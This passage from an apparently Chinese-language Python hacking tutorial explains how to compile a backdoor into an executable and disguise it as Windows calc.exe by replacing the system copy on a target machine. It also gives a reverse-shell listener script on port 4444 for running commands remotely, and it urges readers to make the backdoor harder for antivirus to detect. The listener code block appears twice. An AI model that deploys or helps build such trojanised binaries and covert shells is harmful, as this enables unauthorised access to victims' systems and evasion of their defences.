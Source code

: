 ```py
python setup.py py2exe 
```

在编译完成后，在目录下会看到多出两个目录，dist 和 build。在 dist 文件夹下可以找到 backdoor.exe。重命名为 calc.exe 拷贝到目标系统，并将目标系统的 calc.exe 从 C:\WINDOWS\system32\ 拷贝到别的 目录(比如 C:\ folder)。将我们的 calc.exe 复制到 C:\WINDOWS\system32\ 目录下。现在我们 还需要一个简单的 shell 接口，用来和反弹回来的 shell 交互，发送命令，接收结果。

```py
#backdoor_shell.py
import socket 
import sys
host = "192.168.244.1"
port = 4444
server = socket.socket( socket.AF_INET, socket.SOCK_STREAM ) 
server.bind( ( host, port ) )
server.listen( 5 )
print "[*] Server bound to %s:%d" % ( host , port ) 
#backdoor_shell.py
import socket 
import sys
host = "192.168.244.1"
port = 4444
server = socket.socket( socket.AF_INET, socket.SOCK_STREAM ) 
server.bind( ( host, port ) )
server.listen( 5 )
print "[*] Server bound to %s:%d" % ( host , port ) 
```

这是一个非常就当的 socket 服务器，仅仅是接受一个连接，然后处理一些基础的读写工 作。你可以修改 host 和 port 为自己需要的参数（比如 53， 80 ）。先运行服务器进行端口 监听，然后在远程的系统(本机也行)上运行 cacl.exe。你会看到弹出了计算器的窗口，同时 你的 Python shell 服务器也会接收到一个连接，开始读取数据。为了打断 recv 循环，请按下 CTRL-C 键，然后程序提示你输入命令。这时候就能做很多事情了，比如使用 WIndows shell 内建的命令，比如 dir，cd ，type。每个命令的输出结果都能够传输回来。现在你拥有了一 个高效的后门。用你的想象力扩展它，让它更猥琐，让它能逃过更多的杀毒的软件，更隐蔽。 我们的目标就是没有最坏，只有更坏。用 Python 的好处就是，快速，简单，可重用。

当你看完这章，你已经学会了 DLL 和代码注入这两种非常有用的技术。在今后的渗透 测试或者逆向工程中，你会发现花在这些技能上的精力是值得的。接下来我们会变得更黑， 我们要开始学习如何破坏程序。用 Python，用 Python-based fuzzer，用所有伟大的开源工具。
